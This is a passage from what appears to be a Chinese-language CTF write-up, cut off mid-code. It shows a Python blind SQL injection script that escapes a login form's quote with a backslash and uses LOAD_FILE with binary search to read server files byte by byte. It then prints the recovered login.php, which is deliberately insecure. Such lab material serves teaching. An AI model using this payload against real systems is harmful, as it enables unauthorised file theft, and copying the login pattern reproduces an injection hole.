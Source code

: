 ```python
        return f"\\x{ord(c):02x}"
    else:
        return c

while True:
    low, high = 10, 127  # ASCII 可打印和特殊字符范围

    while low + 1 < high:
        mid = (low + high) // 2
        payload = f"or IF(ASCII(SUBSTR(LOAD_FILE({file_path}),{i},1))<{mid},1,0)#"
        data = {"username": "\\", "password": payload}
        r = requests.post(url, data=data)

        if "Welcome" in r.text:
            # 条件成立 → 字符 < mid
            high = mid
        else:
            # 条件不成立 → 字符 >= mid
            low = mid

    # 文件结束检测：LOAD_FILE 返回 NULL 或不可读
    if low <= 0:
        print("[#] 文件读取结束")
        break

    c = chr(low)
    flag += c
    print(f"[+] 当前 flag: {''.join([visual_char(ch) for ch in flag])}")

    i += 1
```

可以读取到`/var/www/html/login.php`源码

```php
<?php
error_reporting(0);

include_once("conn.php");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';

    // 去掉单引号防止 SQL 注入尝试（不安全方式）
    $username = str_replace("'", "", $username);
    $password = str_replace("'", "", $password);

    // SQL 查询
    $sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";

    if ($conn->multi_query($sql)) {
        do {
            if ($result = $conn->store_result()) {
                if ($result->num_rows > 0) {
                    session_start();
                    $_SESSION['username'] = $username;
                    header("Location: main.php");
                    exit();
                }
                $result->free();
            }
        } while ($conn->more_results() && $conn->next_result());
    } else {
```